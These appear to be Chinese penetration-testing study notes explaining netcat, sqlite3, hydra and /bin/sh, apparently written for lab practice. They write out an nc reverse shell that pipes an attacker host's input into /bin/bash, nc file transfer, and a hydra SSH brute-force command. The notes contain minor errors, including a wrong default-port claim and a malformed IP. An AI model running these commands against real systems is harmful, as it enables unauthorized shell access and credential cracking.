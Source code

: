 ### <a id ='tag2'>nc</a> 								

1. nc 192.168.195.170 3333 | /bin/bash | nc 192.168.170 4444						[==返回原地方==](#back2)	

    1. nc 192.168.195.170 3333| /bin/bash

         `nc` 将尝试建立一个 TCP 连接到目标主机的默认端口（通常是 80 或 443）。这样，你可以与目标主机进行简单的网络通信，发送和接收数据。这时候本机就可以同`192.168.195.170`（kali）进行tcp的通讯，是可以持续连接的。也解释了为什么可以输入的个命令连续的测试。

         这样192.168.195.170（kali）的通讯信息会直接传入到  /bin/bash中。

    2. /bin/bash | nc 192.168.195.170 4444

        那么就可以将 `shell`的执行返回内容在次通过另一个端口返回给 192.168.195.170来展示。
    
    3. nc -nlvp 4444 > file
    
        ​	表示将监听到的数据写入到`file`中，这个命令可以实现文件的传输
    
    4. nc 192.168.195.170 < file
    
        ​	表示和`192.168.195.170`建立连接,并将`file`文件进行传输。

### sqlite3					

1. what？											[==返回原地方==](#back3)	<a id='tag3'></a>

    ​	SQLite 是一个软件库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。SQLite 是在世界上最广泛部署的 	SQL 数据库引擎。SQLite 源代码不受版权限制。

2. 具体使用

    1. `.open db.sql` ：如果数据库存在则直接会打开，不存在就创建它。
    2. `.database`：查看已经存在的数据库。
    3. `.dump`：导出完整的数据库数据，可以追加`> `来将其导入到文本文件中。

### hydra								

1. what?

    用于==密码破解网络登录==蛮力攻击工具。通过用户名和密码字典进行暴力破解。还支持暴==力破解登录页面中的表单==，具有高度可定制化和灵活性。此外，用户还可以在攻击前对==目标主机进行端口扫描==，以确认要攻击的服务端口。Medusa也支持多线程破解，

2. 具体实例

    1. hydra -L user.txt -P password.txt ssh://192.168.195.28
        1. -L/-l：用于指定登陆的用户
        2. -P/-p：用于指定密码。
        3. ssh://：按这个格式来

# 复盘/其他知识点

### /bin/sh

在许多系统中，`/bin/sh`实际上是指向其他Shell解释器的符号链接，例如Bash Shell（/bin/bash）、Dash Shell（/bin/dash）或其他兼容的Shell。这是因为在现代系统中，Bash Shell通常作为默认的Shell解释器，而`/bin/sh`被链接到Bash Shell的路径。

因此，当您在命令中使用`/bin/sh`时，它实际上是指定使用系统默认的Shell解释器来执行相应的命令。具体使用哪种Shell取决于系统配置和符号链接的设置。

